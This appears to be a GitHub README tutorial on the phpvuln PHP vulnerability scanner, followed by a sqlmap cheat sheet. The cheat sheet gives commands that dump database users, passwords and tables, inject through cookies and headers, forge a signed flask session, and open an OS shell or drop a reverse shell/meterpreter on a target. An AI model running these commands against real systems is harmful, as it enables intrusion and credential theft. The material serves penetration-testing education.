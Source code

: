 # phpvuln - sqlmaps - finding vulnerabilities in php code

Hi, I'm Carl Vincent Reyno, a security engineer at HackerOne. I'm going to discuss how to find vulnerabilities in php code and how sqlmap works.

So, According to the Zend (2023), A PHP vulnerability is an exploitable flaw in a PHP application that can be used to gain unauthorized access to systems that comprise or underlie that PHP application.

<b>Here's the dependencies on how to execute this in python3 pre-installed in your computer. 

Let’s install it by using the following command: </b>

```python
apt install python3
```

<b> Installing the PHP  </b>

```python
git clone https://github.com/ecriminal/phpvuln.git
cd phpvuln/
python3 phpvuln.py -h
```

<b> Getting the vulnerability list </b>
<br>
Here you can see the list of many types of vulnerabilities that you can identify in php code with the help of this tool.
```python
python3 phpvuln.py --list-vuln
```

<b> Find Vulnerability </b>
<br>
As you may have come to know about this tool why developers have created this tool. All we have to do is give the path of the php project that we want to investigate and it will identify all the vulnerability by itself.

```python
! python3 phpvuln.py -p < your path of php code >
```
```python
python3 phpvuln.py -p .../.../Desktop/bWAPP/
```

Also you can use the following command if you want to find a specific vulnerability in PHP code.

```python
! python3 phpvuln.py -p < your path of php code > -v < vuln name >
```

```python
python3 phpvuln.py -p /.../.../Desktop/bWAPP/ -v rfi
```
Thus, you can use all the features of this tool one by one and benefit by finding significant vulnerabilities in php code.
<br>
 For the sqlmaps, we discuss on how php vuln works in the system using linux. Now we need to know how sqlmaps work
<br>

Here are the commands from `Generic.py` to generate basic arguments for sqlmap and to get a general idea about the topic:
```python
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

We are retrieving information from the sqlmaps:
<br>

<b>Retrieve Information</b>
<br>

<b>Internal</b>
```python
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
<b>First database data</b>
<br>

```python
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

We are now creating a SQL Injection Place:

<b> ZAP/BURP Suite Configuration # </b>
```python
sqlmap -r req.txt --current-user
-
```
<b> Getting a Request Rejection # </b>
```python
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
<b> Posting a Request Rejection # </b>
```python
sqlmap -u "http://example.com" --data "username=*&password=*"
```

<b> Inserting some Injections in Headers and Other HTTP Methods # </b>
```python
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

<b> Indicating if the string is successfully injected in the Headers # </b>
```python
--string="string_showed_when_TRUE" 
```


Sqlmap supports the usage of -e or --eval to process each payload before delivering it with a oneliner in Python. This makes customizing the payload before sending it very simple and quick. In the following example, flask signs the flask cookie session with the known secret before transmitting it:

```python
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

<b> Implementing Shell Unix in Linux # </b>
```python
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
<b> Auto-Exploiting with SQLMap # </b>
```python
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

